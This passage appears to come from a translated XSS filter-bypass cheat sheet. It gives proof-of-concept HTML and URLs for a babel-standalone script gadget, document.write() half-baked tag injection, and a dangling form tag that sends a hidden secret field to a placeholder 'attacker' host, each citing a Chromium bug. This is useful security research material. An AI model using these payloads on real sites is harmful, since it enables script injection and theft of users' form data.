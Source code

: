 ```html
<link rel=import href=/bypass/babel-standalone.html><svg><script type=text/jsx>//<!--
alert(1)//--></svg><script>0</script>
```

### `document.write()` Occasionally use half-baked tags (Chrome only)

Conditions for attacking:

1. `document.write()`There is XSS that renders the URL
2. The tag used for the attack `document.write()`can be closed outside (in the case of the PoC below, `</body>`is used as the closing tag)

Reference URL:

- [https://bugs.chromium.org/p/chromium/issues/detail?id=421786](https://bugs.chromium.org/p/chromium/issues/detail?id%3D421786)

PoCs:

[https://vulnerabledoma.in/bypass/dom_docwrite#%3Cimg%20src=x%20onerror=alert(1)//](https://vulnerabledoma.in/bypass/dom_docwrite%23%253Cimg%2520src%3Dx%2520onerror%3Dalert(1)//)

```html
<body>
<script>
hash=location.hash.slice(1);
document.write(decodeURIComponent(hash));
</script>
</body>
```

### Using half-baked form tags (getting information only) (Safari only)

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. New form tags can be placed where existing form content containing sensitive information can be submitted

Reference URL:

- [https://bugs.chromium.org/p/chromium/issues/detail?id=719092](https://bugs.chromium.org/p/chromium/issues/detail?id%3D719092)

PoCs:

(if you are inside a form) [https://vulnerabledoma.in/bypass/form?q=%22%3E%3C/form%3E%3Cform%20action=https://attacker/](https://vulnerabledoma.in/bypass/form?q%3D%2522%253E%253C/form%253E%253Cform%2520action%3Dhttps://attacker/)

```html
<form action="form">
<input type="hidden" name="q" value=""></form><form action=https://attacker/">
<input type="hidden" name="secret" value="a09d3ef0">
<input type="submit">
</form>
```
